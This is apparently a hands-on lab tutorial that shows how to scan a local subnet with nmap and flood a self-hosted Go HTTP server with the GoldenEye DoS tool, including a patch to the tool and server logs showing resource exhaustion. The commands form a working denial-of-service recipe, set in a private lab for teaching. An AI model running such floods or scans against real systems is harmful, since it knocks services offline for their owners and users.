

# HackersDelight
A whitehats' playground

## DoS using Kali

In this experiment, we use 3 machines:  
1. Your laptop, running a Firefox web browser accessing our simple HTTP server.  
2. A VM running our simple HTTP server written in the Go programming language.  
3. A Kali VM as the machine attacking HTTP server.  

### Download Kali VM and DoS tool

Download and run [Kali VM](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)  

Login to the terminal shell of Kali VM, make your own working directory and `git clone https://github.com/jseidl/GoldenEye.git`  

Fix a [known issue](https://github.com/jseidl/GoldenEye/issues/27) in goldeneye.py, line 465:  
```python
#nrEncodings = random.randint(1,len(acceptEncoding)/2)
nrEncodings = random.randint(1, int(len(acceptEncoding)/2))
```

### HTTP Server - The victim

Get the IP of HTTP server vm:  
```sh
$ hostname -I
192.168.234.129
```

Go to the `httpserver` directory, do `chmod +x httpserver` if the binary is not executable.  
Then run the server.  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
```

### Laptop Firefox browser
From your laptop, use Firefox to access the HTTP server, `http://192.168.234.129:8288/hello`


### Kali VM - The Attacker

Go back to Kali VM to plan, prepare and attack a victim.  

***Recce phase***  
*1. Where and what am I? (What is my IP?)*  
```sh
$ hostname -I
192.168.234.128
```

*2. Who are around? (Select the victim)*  
```sh
$ nmap 192.168.234.*
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:34 EDT
Nmap scan report for 192.168.234.2
Host is up (0.00072s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 192.168.234.128
Host is up (0.00075s latency).
All 1000 scanned ports on 192.168.234.128 are closed

Nmap scan report for 192.168.234.129
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.87 seconds
```

*3. What are ALL the open ports of victim?*
```sh
$ nmap -p- 192.168.234.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:35 EDT
Nmap scan report for 192.168.234.129
Host is up (0.00048s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8288/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.56 seconds
```

***Attack phase***  
*4. Now start attacking the victim using `goldeneye`.*  
```sh
$ ./goldeneye.py http://192.168.234.129:8288 -w 50 -s 100 -d
GoldenEye v2.1 by Jan Seidl <jseidl@wroot.org>

Hitting webserver in mode 'get' with 50 workers running 100 connections each. Hit CTRL+C to cancel.
Starting 50 concurrent workers
Starting worker Striker-2
Starting worker Striker-3
Starting worker Striker-4
Starting worker Striker-5
Starting worker Striker-7
Starting worker Striker-8
Starting worker Striker-6
Starting worker Striker-9
...
Starting worker Striker-41
Starting worker Striker-42
Starting worker Striker-45
Initiating monitor
Starting worker Striker-44
Starting worker Striker-46
Starting worker Striker-47
Starting worker Striker-48
Starting worker Striker-51
Starting worker Striker-50
Starting worker Striker-49
```
*5. The HTTP server starts to display errors.*  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
2020/06/29 00:43:33 GET /hello HTTP/1.1
2020/06/29 00:43:33 Header["Accept-Language"] = ["en-US,en;q=0.5"]
2020/06/29 00:43:33 Header["Connection"] = ["keep-alive"]
2020/06/29 00:43:33 Header["Upgrade-Insecure-Requests"] = ["1"]
2020/06/29 00:43:33 Header["Accept"] = ["text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"]
2020/06/29 00:43:33 Header["Dnt"] = ["1"]
2020/06/29 00:43:33 Header["Cache-Control"] = ["max-age=0"]
2020/06/29 00:43:33 Header["User-Agent"] = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"]
2020/06/29 00:43:33 Header["Accept-Encoding"] = ["gzip, deflate"]
2020/06/29 00:43:33 Host = "192.168.234.129:8288"
2020/06/29 00:43:33 RemoteAddr = "192.168.234.1:58641"
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 5ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 10ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 20ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 40ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 80ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 160ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 320ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 640ms
2020/06/29 00:43:50 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:51 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:52 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:53 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:54 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:55 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
...
```

*6. From your laptop, use Firefox to re-access the HTTP server, `http://192.168.234.129:8288/hello`, it waits and hangs.*  



